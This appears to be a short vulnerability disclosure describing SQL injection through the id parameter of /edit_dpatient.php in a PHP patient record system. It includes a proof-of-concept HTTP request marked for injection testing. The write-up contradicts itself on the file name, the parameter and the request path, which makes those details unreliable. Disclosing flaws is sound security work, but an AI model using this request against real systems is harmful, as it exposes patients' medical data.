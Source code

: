 # patient-record-management-system-in-php has sql injection in /edit_dpatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/edit_dpatient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in dental_not.php. The parameters that can be controlled are as follows: $ia. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in /edit_dpatient.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20250405231201007](sql80(未交).assets/image-20250405231201007.png)



## POC

```
GET /edit_dpatient.php.php?id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
